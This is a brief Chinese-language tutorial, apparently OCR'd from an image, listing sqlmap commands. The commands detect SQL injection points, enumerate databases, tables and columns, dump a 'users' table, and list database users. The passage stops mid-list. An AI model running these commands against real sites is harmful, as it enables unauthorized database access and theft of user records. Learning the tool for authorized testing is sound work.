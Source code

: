 

kali自带，windows直接使用sqlmap.py即可

使用案例：



检测注入点

```
sqlmap -u url             //检测过程中需要手动输入y/n，即是否继续进行sql注入检测
sqlmap -u url --batch     //检测过程中默认继续进行sql注入检测
```



查看所有数据库

```
sqlmap -u url --dbs
```



查看当前网站使用的数据库，

```
sqlmap -u url --current-db
```

假设是security



查看数据表

```
sqlmap -u url -D 'security' --tables
```

假设有一张表为users



查看字段

```
sqlmap -u url -D 'security' -T 'users' --columns
```



查看字段数据

```
sqlmap -u url -D 'security' -T 'users' --dump
```



查看所有用户

```
sqlmap -u url --users
```



查看当前数据库用户
